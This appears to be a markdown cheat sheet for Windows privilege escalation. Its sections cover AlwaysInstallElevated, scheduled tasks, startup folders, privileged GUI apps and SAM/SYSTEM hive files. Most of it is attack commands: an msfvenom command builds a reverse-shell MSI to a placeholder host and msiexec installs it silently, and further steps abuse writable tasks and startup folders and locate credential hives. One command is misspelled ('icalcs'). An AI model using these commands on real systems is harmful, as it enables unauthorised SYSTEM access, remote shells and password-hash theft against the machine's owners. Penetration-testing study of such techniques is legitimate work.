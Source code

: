 ## AlwaysInstallElevated

```bash
# For checking, it should return 1 or Ox1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=<port> --platform windows -f msi > reverse.msi

# Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

## Schedules Tasks

```bash
# Displays list of scheduled tasks, Pickup any interesting one
schtasks /query /fo LIST /v 
# Permission check - Writable means exploitable!
icalcs "path"
# Wait till the scheduled task in executed, then we'll get a shell
```

## Startup Apps

```bash
# Startup applications can be found here
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
# Check writable permissions and transfer
# The only catch here is the system needs to be restarted
```

## Insecure GUI apps

```bash
# Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
# Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```

## SAM and SYSTEM

- Check in following folders

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

# First go to c:
dir /s SAM
dir /s SYSTEM
```
